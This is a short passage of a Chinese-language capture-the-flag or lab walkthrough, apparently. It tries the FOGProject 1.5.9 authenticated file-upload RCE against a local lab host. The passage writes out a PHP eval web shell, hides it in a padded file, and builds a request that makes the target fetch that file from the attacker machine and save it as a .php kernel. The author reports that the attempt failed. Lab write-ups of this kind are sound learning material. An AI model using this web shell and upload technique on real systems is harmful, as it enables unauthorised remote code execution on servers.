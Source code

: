 尝试利用 [FOGProject 1.5.9 - File Upload RCE (Authenticated)](https://www.exploit-db.com/exploits/49811)

```bash
┌──(randark ㉿ kali)-[~]
└─$ dd if=/dev/zero of=myshell bs=10485760 count=1
输入了 1+0 块记录
输出了 1+0 块记录
10485760 字节 (10 MB, 10 MiB) 已复制，0.0843002 s，124 MB/s

┌──(randark ㉿ kali)-[~]
└─$ echo PD9waHAgQGV2YWwoJF9SRVFVRVNUWydzaGVsbCddKSA/Pg== | base64 -d
<?php @eval($_REQUEST['shell']) ?>

┌──(randark ㉿ kali)-[~]
└─$ echo PD9waHAgQGV2YWwoJF9SRVFVRVNUWydzaGVsbCddKSA/Pg== | base64 -d >> myshell
```

然后访问 `http://192.168.56.130/fog/management/index.php?node=about&sub=kernel&file=aHR0cDovLzE5Mi4xNjguNTYuMTI3L215c2hlbGwK=&arch=arm64`

将 `Kernel Name` 修改为 `myshell.php`

![img](img/image_20250408-230854.png)

但是很明显连接失败了，严重怀疑是由于目标机器在本地部署时参数被修改
